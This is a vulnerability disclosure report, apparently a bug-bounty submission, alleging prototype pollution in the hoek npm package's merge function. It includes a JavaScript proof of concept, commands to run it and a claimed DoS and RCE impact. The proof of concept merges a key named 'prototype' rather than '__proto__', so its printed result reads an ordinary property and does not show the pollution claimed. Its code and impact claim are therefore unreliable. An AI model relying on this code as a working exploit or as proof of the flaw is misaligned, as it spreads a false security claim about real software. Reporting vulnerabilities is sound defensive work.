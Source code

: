 # Description
hoek package is vulnerable to prototype pollution issue 
file can be found in https://github.com/hapijs/hoek/blob/master/lib/merge.js
# Proof of Concept 
1. Creating poc file namely poc.js
```js
var utils = require('hoek');
var src = {};
let object = utils.merge({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'));
console.log(object.prototype.isAdmin);
```
2. Execute command npm install hoek
3. Execute command node poc.js
* https://drive.google.com/file/d/1Vcy1bmKPcaeADxz3EAopuO3cZMlanYcX/view?usp=sharing
# Impact
Prototype pollution which could lead to DOS and RCE
# Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_

